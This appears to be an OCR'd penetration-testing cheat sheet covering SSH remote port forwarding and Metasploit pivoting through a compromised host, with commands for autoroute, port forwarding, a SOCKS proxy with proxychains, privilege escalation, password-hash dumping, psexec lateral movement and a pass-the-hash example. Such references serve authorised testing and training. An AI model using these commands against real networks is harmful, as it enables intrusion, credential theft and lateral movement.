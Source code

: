 [+] SSH Tunnelling
Remote forward port 222
ssh -R 127.0.0.1:4444:10.1.1.251:222 -p 443 root@192.168.10.118

-------------------------------------------------------------------------- Metasploit

----------------- [+] Metasploit Pivot

Compromise 1st machine

# meterpreter> run arp_scanner -r 10.10.10.0/24
route add 10.10.10.10 255.255.255.248 <session>
use auxiliary/scanner/portscan/tcp
use bind shell

or run autoroute:

# meterpreter > ipconfig
# meterpreter > run autoroute -s 10.1.13.0/24
# meterpreter > getsystem
# meterpreter > run hashdump
# use auxiliary/scanner/portscan/tcp
# msf auxiliary(tcp) > use exploit/windows/smb/psexec 

or port forwarding:
# meterpreter > run autoroute -s 10.1.13.0/24
# use auxiliary/scanner/portscan/tcp
# meterpreter > portfwd add -l <listening port> -p <remote port> -r <remote/internal host>

or socks proxy:
route add 10.10.10.10 255.255.255.248 <session>
use auxiliary/server/socks4a
Add proxy to /etc/proxychains.conf
proxychains nmap -sT -T4 -Pn 10.10.10.50
setg socks4:127.0.0.1:1080

----------------- [+] Pass the hash

If NTML only:
00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c
